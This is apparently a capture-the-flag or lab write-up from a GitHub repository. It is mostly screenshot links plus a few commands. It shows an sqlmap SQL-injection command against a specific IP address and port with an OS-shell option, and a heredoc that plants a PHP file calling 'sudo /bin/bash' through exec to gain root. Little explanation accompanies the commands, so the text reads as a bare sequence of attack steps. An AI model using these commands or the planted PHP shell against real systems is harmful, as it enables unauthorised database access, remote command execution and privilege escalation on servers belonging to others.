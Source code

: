 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/cc9c4810-ef5b-4986-9878-d959e54f6324)

`sqlmap -u "http://62.173.140.174:18600/?id=" --batch --level=2 --risk=3 --random-agent -v --tamper=space2comment --all --os-shell`

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c8ee09e9-ef49-4861-8d05-001133ddea0b)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/83464127-58a8-4db0-aaaf-a091255019fc)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c6218487-a3e1-4ee2-a763-5f8b114ef886)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c211f186-dc12-41e9-bd7e-f94ca6833fdd)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/487ee078-3699-461d-993a-f1b333a3b8fe)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9964bc32-87e8-4a3e-b478-1376c24c8ff0)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/b19e2c6b-ba92-4b8b-acec-ece0e521e0b1)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/5b78ce27-d635-4e95-85d4-13c5a164b579)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/1dbd4bcd-e092-4cce-8b48-fddf915b8cd0)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/b60015b5-d6fb-404e-9fe0-bbbddb287466)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ea5169a9-7607-4fd4-a688-016bb440097e)

`/bin/bash`

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/5dcb4387-1b2c-4791-af60-c39881da406a)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/03f312e8-b36a-4732-9b5f-d5d20ac80512)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/4c4f25fe-e7fc-443b-97cd-cda442672186)

``
cat >> root3.php<< EOF
<?php
echo "<br>root: ".(exec("sudo /bin/bash"));
?>
EOF
``

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/4c0f083b-bf4a-43cf-bdb2-2751b395ae0d)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/2f1a0b84-c689-43cc-9b59-3713767b1e71)













